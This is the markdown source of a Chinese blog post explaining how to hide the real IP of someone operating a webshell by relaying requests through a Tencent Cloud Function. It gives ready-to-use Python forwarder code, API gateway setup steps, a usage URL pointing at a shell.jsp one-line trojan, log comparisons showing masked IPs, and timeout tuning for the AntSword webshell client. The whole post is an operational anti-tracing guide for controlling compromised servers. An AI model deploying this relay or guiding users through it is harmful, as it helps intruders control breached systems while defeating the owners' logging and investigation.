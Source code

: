 ```yaml
---
title: 利用云函数隐藏Webshell真实IP
comments: true
date: 2022-06-13 19:16:40
tags: ["渗透测试", "防溯源", "云函数"]
categories:
- 渗透测试
cover: http://image.xpshuai.cn/20220614141212.png
top_img:
description:
---
```



> 腾讯云自带CDN，我们可以通过腾讯云函数来转发我们的Webshell请求，从而达到隐藏真实IP的目的

## 创建云函数
找到云函数，使用自定义模板
![20220613192232](http://image.xpshuai.cn/20220613192232.png)

![20220613192325](http://image.xpshuai.cn/20220613192325.png)

把下面的代码复制到index.py中
```python
# -*- coding: utf8 -*-
import requests
import json
def geturl(urlstr):
    jurlstr = json.dumps(urlstr)
    dict_url = json.loads(jurlstr)
    return dict_url['u']
def main_handler(event, context):
    url = geturl(event['queryString'])
    postdata = event['body']
    headers=event['headers']
    resp=requests.post(url,data=postdata,headers=headers,verify=False)
    response={
        "isBase64Encoded": False,
        "statusCode": 200,
        "headers": {'Content-Type': 'text/html;charset='+resp.apparent_encoding},
        "body": resp.text
    }
    return response

```
> 注意，运行环境要选Ppython3.6，不然3.7的话得手动上传第三方库(感觉我的同事，不然我一直在坑里出不来呢)


![20220613192414](http://image.xpshuai.cn/20220613192414.png)


部署成功后，点击触发管理->创建触发器：
![20220613192526](http://image.xpshuai.cn/20220613192526.png)

这里需要选择API网关触发：
![20220613192618](http://image.xpshuai.cn/20220613192618.png)


创建完成后，下图可以看到我们的访问路径：
![20220613192747](http://image.xpshuai.cn/20220613192747.png)


## 使用方法
然后在我们的访问路径后面增加`?u=webshell一句话木马`的地址即可
例如：
```text
https://sxxxxxxxxxxxxxxxxx.gz.apigw.tencentcs.com/release/helloworld-11?u=http://xxxx/shell.jsp

```



使用云函数之前，可以看到我的真实IP：
我这里使用`tail -f xxx.log`来监控的日志，也可以wireshark抓包
访问：`http://10.80.20.57:8080/test/shell.jsp`
![20220614112844](http://image.xpshuai.cn/20220614112844.png)
![20220614112807](http://image.xpshuai.cn/20220614112807.png)

使用云函数之后，
访问：`https://serxxxxxxxxxxxx.gz.apigw.tencentcs.com/release/forwarded?u=http://xxx/shell.jsp`
![20220614132635](http://image.xpshuai.cn/20220614132635.png)

然后我们查看日志：显示的是腾讯云函数CDN的地址

![20220614132911](http://image.xpshuai.cn/20220614132911.png)
可以看到IP地址是随机的：
![20220614132852](http://image.xpshuai.cn/20220614132852.png)

成功达到目的



## 补充
防止webshell的掉线行为，修改一下超时设置，可以配置为60s  
最好在【函数管理】 -> 【函数配置】里面，最好把执行超时时间设置成和蚁剑里面的超时时间一样或者更长
![20220613193021](http://image.xpshuai.cn/20220613193021.png)







